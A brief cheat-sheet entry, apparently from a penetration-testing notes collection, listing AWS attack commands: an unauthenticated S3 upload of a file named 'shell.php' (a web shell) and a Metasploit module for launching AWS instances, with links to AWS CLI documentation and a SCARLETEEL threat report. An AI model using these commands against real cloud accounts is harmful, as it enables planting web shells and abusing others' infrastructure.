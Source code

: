 # AWS

```
$ aws s3 --no-sign-request cp shell.php s3://<s3_bucket_IP>
```

```
msf > use auxiliary/admin/aws/aws_launch_instances
```

---
## References

https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html

https://sysdig.com/blog/scarleteel-2-0/